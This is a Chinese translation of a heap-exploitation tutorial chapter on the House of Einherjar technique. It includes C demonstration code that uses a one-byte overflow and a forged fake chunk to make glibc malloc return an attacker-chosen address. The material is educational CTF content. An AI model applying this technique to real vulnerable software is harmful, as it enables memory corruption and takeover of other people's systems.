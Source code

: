 ```yaml
---
title: Heap Exploitation系列翻译-16 House of Einherjar
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```

# House of Einherjar

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这个house并不是"The Malloc Maleficarum"的一部分. 这项堆漏洞技术是由[Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606)于2016年提出. 这项攻击也是围绕着利用'malloc'来返回一个附近的任意指针. 和其他攻击不同, 它只要求1字节的溢出即可实现. 有许多1字节溢出的软件漏洞, 但大多是著名的["off by one"](https://en.wikipedia.org/wiki/Off-by-one_error)错误. 它覆写内存中next chunk的'size并清除了`PREV_IN_USE`标志为零, 当然也会向`prev_size`(已经在前一个堆块的数据域)覆写一个伪造的大小. 当next chunk被释放, 它会发现它前一个堆块是空闲状态并尝试通过内存中'我们之前伪造的大小'作偏移来合并堆块. 伪造大小是精心计算的因此合并后的堆块的范围在伪造堆块处截止, 这可以被后续的malloc所返回

考虑以下示例代码(下载完整版本 [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_einherjar.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```

注意以下事项:

1. 第二个堆块的大小为`0xf8`, 这只是确保了堆块的真实大小的最低有效字节为`0`(忽视标志位). 因此, 我们可以轻松的在不改变堆块大小的情况下设置`prev_in_use`位为`0`.
2. `allotedSize`减去了`sizeof(size_t)`, `allotedSize`等于完整堆块的大小. 这是因为当前堆块的`size`和`prev_size`不可用, 但是next chunk的`prev_size`可用.
3. 伪堆块的前向后向指针都经过调整, 以通过`unlink`的安全检查.
